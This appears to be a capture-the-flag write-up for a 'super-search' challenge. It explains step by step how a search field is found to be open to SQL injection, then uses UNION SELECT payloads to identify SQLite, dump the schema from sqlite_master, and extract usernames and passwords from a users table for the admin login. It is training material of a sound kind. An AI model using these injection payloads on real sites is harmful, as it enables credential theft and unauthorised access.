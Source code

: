 # super-search

Opening the Super Search web page, we are greeted by a search bar and a link to an admin login page in the top-right.

You could start by typing random words into the search bar. For example, typing in `game` yields a list of board games, video games and related products each with a description and a category.
Complex queries such as `what is the flag` yield no results at all. Keen contestants will notice that this behaviour resembles a very rudimentary database search, using basic string matching.

Indeed, this suspicion is confirmed when typing in a query with special symbols such as `'` or `?`: `what is the 'flag'` will result in the page throwing an error:
```
Unable to prepare statement: 1, near "flag": syntax error
```
This information is extremely useful: not only are we quite sure that an SQL injection should be possible, but the server also graciously provides us with all the information required in order to reverse-engineer te underlying database.

Let's try figuring out what database is being used, by inserting a second query. An educated guess is made that the database is SQLite, but if it weren't, we'd get an error in the following queries telling us so.

| **Query**                        | **Result**                                                             |
|----------------------------------|------------------------------------------------------------------------|
| foo'; SELECT sqlite_version();-- | Only "Foo Fighters" pops up, which is the same result `foo` would get. |

> note: `'` terminates the match string in the query. `--` indicates a comment in SQLite, allowing us to ignore everything following our injected query.

Perchance, the server does not support multiple statements in one query. Let's try a `UNION` clause instead:

| **Query**                             | **Result**                                                                                                                    |
|---------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|
| foo' UNION SELECT sqlite_version();-- | _Error_: Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns |

This is easy to fix: our results table has 3 columns, thus we prepare our query to return 3 as well.

```
foo' UNION SELECT sqlite_version(), sqlite_version(), sqlite_version();--
```
Yields:

| name         | description                                   | kind       |
|--------------|-----------------------------------------------|------------|
| 3.28.0       | 3.28.0                                        | 3.28.0     |
| Foo Fighters | American rock band, formed in Seattle in 1994 | rock group |

There is now no doubt left that SQL injection is freely possible, and that we are using SQLite.
A contestant will typically proceed by researching how to obtain the database structure using SQLite, or by making `SELECT *` queries on random table names, hoping to get the right one.

The database structure is procured as such:
```
foo' UNION SELECT sql, sql, sql FROM sqlite_master;--
```

Which shows us the `users` table:

```
foo' UNION SELECT * FROM users;--
```

Which gives us access to the `jsmith` and `rvdb` users and their passwords. These combinations can be used in the admin login screen, revealing the challenge flag.